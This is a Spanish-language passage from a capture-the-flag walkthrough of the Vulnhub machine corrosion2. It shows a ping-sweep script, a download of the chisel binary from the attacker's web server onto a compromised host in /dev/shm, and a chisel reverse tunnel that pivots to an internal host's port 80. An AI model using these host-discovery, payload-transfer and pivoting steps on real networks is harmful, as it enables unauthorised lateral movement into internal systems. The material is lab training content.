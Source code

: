 ```java
#!/bin/bash
# Dirección IP de inicio y final del rango a escanear
start_ip=1
end_ip=254
# Utilizar xargs para ejecutar varias instancias de ping al mismo tiempo
seq $start_ip $end_ip | xargs -P 50 -I{} bash -c 'ping -c 1 192.168.210.{} > /dev/null; if [ $? -eq 0 ]; then echo "La dirección IP {} está activa";fi'
```
Resultado de ejecución del script.
```java
bash-5.0# sh hostDiscovery.sh 
La dirección IP 1 está activa
La dirección IP 128 está activa
La dirección IP 129 está activa
```
### Chisel
Una vez conseguida la flag root, se da por culminado el primer equipo, sin embargo, en el presente escenario existe otro computador mas conectado a otra red por otro, por lo que podemos utilizar chisel para ejecutar remot portforwarding.por lo que se recomienda ver el la pagina de [chisel](https://github.com/jpillora/chisel/releases/download/v1.7.7/chisel_1.7.7_linux_amd64.gz)
Para compartir el archivo chisel levantamos un servidor web con python3 desde la maquina atacante y procedemos con la descarga.
```java
┌──(root㉿kali)-[/home/…/CTF/vulnhub/corrosion2/content]
└─# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/)
```
Nos movemos a la carpeta /dev/shm y desde ahi descargarmos chisel y dar permisos de ejecución.
```java
bash-5.0#  pwd
/dev/shm
bash-5.0# wget 192.168.200.147/chisel
--2023-01-20 10:19:16--  http://192.168.200.147/chisel
Connecting to 192.168.200.147:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3107968 (3.0M) [application/octet-stream]
Saving to: ‘chisel’
chisel  100%[====================================================================================================>]   2.96M  --.-KB/s    in 0.07s   
2023-01-20 10:19:16 (45.2 MB/s) - ‘chisel’ saved [3107968/3107968]
bash-5.0# 
bash-5.0# ls -la
-rw-rw-r--  1 root randy 3107968 Jan 30  2022 chisel
bash-5.0# chmod +x chisel 
bash-5.0# ls -la
-rwxrwxr-x  1 root randy 3107968 Jan 30  2022 chisel
bash-5.0# 
```
Ejecutar chisel desde el servidor, recordar que se debe tener permisos de ejecución.
```java
┌──(root㉿kali)-[/home/…/CTF/vulnhub/corrosion2/content]
└─# ./chisel server --reverse -p 1234
2023/01/20 12:25:24 server: Reverse tunnelling enabled
2023/01/20 12:25:24 server: Fingerprint e/uTC7zOwR/RM4G/wjk+wrwIaSz0UQPLSrDsOZwfAi8=
2023/01/20 12:25:24 server: Listening on http://0.0.0.0:1234
```
Para establecer la conexion pivot desde el equipo `corrosion1`, se debe ejecutar chisel desde el equipo `corrosion2`, y establecer la conexion desde el equipo `192.168.210.129`; estableciendo la `ip:port` se peude hacer la reenvío del servicio publicado en el puerto 80.
```java
bash-5.0# ./chisel client 192.168.200.147:1234 R:80:192.168.210.129:80
2023/01/20 10:30:59 client: Connecting to ws://192.168.200.147:1234
2023/01/20 10:30:59 client: Connected (Latency 1.39229ms)
```